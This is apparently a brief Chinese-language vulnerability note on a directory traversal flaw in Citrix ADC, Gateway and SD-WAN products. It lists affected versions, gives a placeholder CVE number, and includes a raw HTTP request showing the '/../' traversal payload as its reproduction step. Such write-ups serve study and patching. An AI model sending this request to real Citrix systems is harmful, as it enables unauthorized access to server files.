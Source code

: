 （CVE-2020-ianianian）Citrix 目录遍历漏洞
=========================================

一、漏洞简介
------------

我也不知道cve编号是多少，有知道的师傅可以告诉我一下。

二、漏洞影响
------------

Citrix ADC and Citrix Gateway: \< 13.0-58.30

Citrix ADC and NetScaler Gateway: \< 12.1-57.18

Citrix ADC and NetScaler Gateway: \< 12.0-63.21

Citrix ADC and NetScaler Gateway: \< 11.1-64.14 

NetScaler ADC and NetScaler Gateway: \< 10.5-70.18

Citrix SD-WAN WANOP: \< 11.1.1a

Citrix SD-WAN WANOP: \< 11.0.3d

Citrix SD-WAN WANOP: \< 10.2.7

Citrix Gateway Plug-in for Linux: \<  1.0.0.137

三、复现过程
------------

    GET /msn/randomname/../ HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    DNT: 1
    Connection: close
    Cookie: startupapp=neo; is_cisco_platform=0; stst=stst; uatz=uatz; drep=Jemoeder; st_splitter=350px; rdx_pagination_size=25%20Per%20Page; SESSID=9ed492e6ff1876d44ddcaec143d2f949
    Upgrade-Insecure-Requests: 1

2.png

